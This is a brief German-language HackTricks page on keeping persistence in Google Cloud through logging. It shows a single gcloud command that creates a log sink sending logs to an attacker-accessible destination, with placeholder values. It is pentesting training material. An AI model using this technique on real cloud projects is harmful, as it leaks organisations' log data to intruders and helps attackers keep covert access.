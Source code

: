 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Protokollierung

Finden Sie weitere Informationen zur Protokollierung in:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Erstellen Sie einen Sink, um die Protokolle an ein für Angreifer zugängliches Ziel zu exfiltrieren:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}

